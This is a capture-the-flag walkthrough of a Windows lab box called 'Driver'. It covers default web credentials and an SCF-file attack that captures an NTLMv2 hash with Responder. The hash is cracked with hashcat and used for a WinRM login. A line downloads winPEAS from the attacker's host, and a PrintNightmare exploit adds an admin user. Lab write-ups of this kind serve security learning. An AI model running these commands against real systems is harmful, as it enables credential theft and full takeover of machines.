 # Driver

* Found port 80, 445 and 135 open

* Going into port 80 asks for user and password, using `admin:admin` i was able to login

* After a while i couldnt find anything special 

* Doing another nmap scan now using -p- for all ports I found port 5985 open so winrm is enabled but this is like ssh for windows

* The page is saying someone will open our upload and check if that file is a valid firmware, so I could upload a rev shell and wait for someone to open it

* First thing I tried was to create a msfvenom rev shell and listen with msfconsole using this https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047 but I was not able to make it work

* Next i found this  article https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ about smb - scf file attacks and this worked using responder

```bash
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:375a0a4db7aa49b5:F87C06F5B9B0BD7B27ABB82DE2398605:0101000000000000E992ED959223D801498ECE8530A17A7800000000020000000000000000000000
```

* So after using `hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt` I could crack the hash to `tony:liltony`

* Using smbmap I got the next output

```bash
smbmap -u Tony -p liltony -d workgroup -H 10.10.11.106
[+] IP: 10.10.11.106:445        Name: 10.10.11.106
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC

```

* So moving to winrm, I logged in using `evil-winrm -i 10.10.11.106 -u Tony -p liltony` and got user.txt

* Downloading winpeas from windows `Invoke-WebRequest "http://10.10.14.130:8000/winPEASx64.exe" -OutFile winpeas.exe`

* winpeas got nothing so I tried using `ps` to list processes and since we are talking about printers, lets check print nightmare

![image](https://user-images.githubusercontent.com/12052283/154322227-51f74b21-d594-48bc-8995-23dda03508ef.png)

* https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html

* So doing the following steps i was able to get root.txt

* In the host machine

```bash
cd /opt/
git clone https://github.com/calebstewart/CVE-2021-1675
mv CVE-2021-1675 invoke-nightmare
```

* In the evil-winrm shell

```bash
upload /opt/invoke-nightmare/CVE-2021-1675.ps1
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "brun0" -NewPassword "test"
```

* Again in the host machine

```bash
evil-winrm -i 10.10.10.149 -u brun0 -p test
```